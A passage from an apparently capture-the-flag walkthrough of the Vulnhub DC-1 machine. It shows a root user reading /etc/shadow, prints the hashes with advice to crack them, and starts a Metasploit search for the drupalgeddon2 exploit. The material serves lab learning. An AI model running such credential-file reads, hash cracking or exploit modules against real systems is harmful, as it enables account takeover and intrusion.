 ## Post exploitation
As soon as we are root on the box, cpature all kind of information such as hashes located in `/etc/shadow`. Store them and crack them.
```bash
# cat /etc/shadow
cat /etc/shadow
root:$6$rhe3rFqk$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/:17955:0:99999:7:::
daemon:*:17946:0:99999:7:::
bin:*:17946:0:99999:7:::
sys:*:17946:0:99999:7:::
sync:*:17946:0:99999:7:::
games:*:17946:0:99999:7:::
man:*:17946:0:99999:7:::
lp:*:17946:0:99999:7:::
mail:*:17946:0:99999:7:::
news:*:17946:0:99999:7:::
uucp:*:17946:0:99999:7:::
proxy:*:17946:0:99999:7:::
www-data:*:17946:0:99999:7:::
backup:*:17946:0:99999:7:::
list:*:17946:0:99999:7:::
irc:*:17946:0:99999:7:::
gnats:*:17946:0:99999:7:::
nobody:*:17946:0:99999:7:::
libuuid:!:17946:0:99999:7:::
Debian-exim:!:17946:0:99999:7:::
statd:*:17946:0:99999:7:::
messagebus:*:17946:0:99999:7:::
sshd:*:17946:0:99999:7:::
mysql:!:17946:0:99999:7:::
flag4:$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80:17946:0:99999:7:::
```

----
## Alternative 1 Metasploit
Start Metasploit.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-1]
└─$ msfconsole -q
msf6 >
```
Now let's search for drupalgeddon2
```bash
msf6 > search drupalgeddon2

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_drupalgeddon2  2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/drupal_drupalgeddon2


msf6 >
```